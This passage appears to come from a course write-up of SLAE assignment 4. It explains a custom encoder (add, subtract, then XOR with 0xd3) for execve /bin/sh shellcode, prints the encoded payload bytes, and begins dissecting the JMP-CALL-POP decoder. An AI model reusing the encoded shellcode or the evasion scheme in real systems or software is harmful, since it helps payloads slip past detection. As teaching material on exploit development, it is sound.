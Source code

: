 - Adds 5 to the first 10 bytes
- Subtracts 7 for all remaining bytes
- XOR's all of the arithmetic encoded bytes by `0xd3`

The encoder can be found <a href="https://github.com/skahwah/slae/blob/master/assignment4/encode.rb">here</a>.

~~~ bash
18:32 skawa@skawa-mbp: assignment4 $ ruby encode.rb
[+] C hex format:
"\xe5\x16\x86\xbe\xe7\xe7\xab\xbe\xbe\xe7\x88\xb1\xb4\x51\xf\x9a\x51\x8\x9f\x51\x9\x7a\xd7\x15\xaa";

[+] nasm hex format:
0xe5,0x16,0x86,0xbe,0xe7,0xe7,0xab,0xbe,0xbe,0xe7,0x88,0xb1,0xb4,0x51,0xf,0x9a,0x51,0x8,0x9f,0x51,0x9,0x7a,0xd7,0x15,0xaa

[+] Total length: 25
18:32 skawa@skawa-mbp: assignment4 $
~~~

### The Decoder
The decoder is responsible for decoding the encoded shellcode and passing execution on to the stack-based `execve` `/bin/sh` instructions. It uses the well documented `JMP`, `CALL`, `POP` process.

The decoder can be found <a href="https://github.com/skahwah/slae/blob/master/assignment4/decode.nasm">here</a>.


### Dissecting the Decoder


1\. `jmp short encoded_shellcode`

The first instruction performs a short `jmp` to the `encoded_shellcode` procedure.



<br>2\. `encoded_shellcode:`

The `encoded_shellcode:` procedure initiates a `call` to the `decode` procedure. This will redirect execution to the `decode` procedure and push the address of `EncodedShellcode` on to the Stack.

The `encoded_shellcode:` procedure also has the `EncodedShellcodeLen` label, which contains the length of the shellcode for dynamic allocation to the counter register later in the program.


~~~ nasm
call decode
EncodedShellcode: db 0xe5,0x16,0x86,0xbe,0xe7,0xe7,0xab,0xbe,0xbe,0xe7,0x88,0xb1,0xb4,0x51,0xf,0x9a,0x51,0x8,0x9f,0x51,0x9,0x7a,0xd7,0x15,0xaa
EncodedShellcodeLen equ $-EncodedShellcode
~~~


<br>3\. `decode:`

The `decode:` procedure is responsible for setting up the `ESI` register to point to the beginning of the `EncodedShellcode`.
